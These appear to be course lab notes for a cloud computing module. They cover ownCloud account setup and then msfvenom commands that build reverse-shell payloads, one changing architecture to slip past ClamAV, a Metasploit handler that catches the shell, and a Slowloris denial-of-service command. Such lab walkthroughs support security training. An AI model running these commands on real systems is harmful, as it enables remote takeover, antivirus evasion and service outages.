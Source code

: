 # Module 19 - Cloud Computing #

## Creating User Accounts and Assigning User Rights ##

### ownCloud ###
1. Login as Admin into ``` http://localhost/owncloud ``` (There's also a client desktop app).
2. Right Menu > 'Users'
3. Enter the username and password into the 'Username' and 'Password' fields, select the Groups it will belong to and click on 'Create'
4. Left Menu > 'Files'
5. Add Icon > Select a folder to add > 'Share'
6. Double Click the newly added folder > Add > Upload a file
7. Go back to the Files section
8. Select the three dots in the newly added folder > 'Details' > 'Sharing' > Add the new user
9. Select the sharing permissions of the new user (Share and Edit)

In the desktop client app, you can access, copy, add, delete... the files and folders from the computer to _ownCloud_, such as with _OneDrive_.


- - - -

## Securing ownCloud from Malicious File Uploads ##

Create the Trojan (``` msfvenom -p windows/meterpreter/reverse_tcp -f exe > <Output Path>/trojan.exe ```) and upload it to ``` http://<Victim IP>/owncloud ```.

### ClamAV ###
It will detect the Trojan and stop the upload.



- - - -

## Bypassing ownCloud Antivirus and Hacking the Host ##
1. Create a malicious file (``` msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> --platform linux -f elf > <Output Path>/exploit.elf ```) and upload it to ``` http://<Victim IP>/owncloud ```.
2. ClamAV will not detect it because we've changed the payload architecture.
3. ``` msfconsole ``` > ``` use multi/handler ``` > ``` set payload linux/x86/shell/reverse_tcp ```, ``` set LHOST <Attacker IP> ```, ``` set LPORT <Attacker Port> ```, ``` exploit ```
4. Now, from the victim machine download the ``` exploit.elf ``` file, change its permissions (``` chmod -R 755 exploit.elf ```) and execute it (``` ./exploit.elf ```).
5. In the attacker machine, if Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.


- - - -

## Implementing DoS Attack on Linux Cloud Server ##

### Slowloris Script ###
1. Go to the Slowloris folder (``` cd Desktop/Slowloris/ ```)
2. Change the permissions to the main file ``` chmod 777 Slowloris.pl ```
3. Perform the DoS attack: ``` ./Slowloris.pl -dns <Target IP> ```

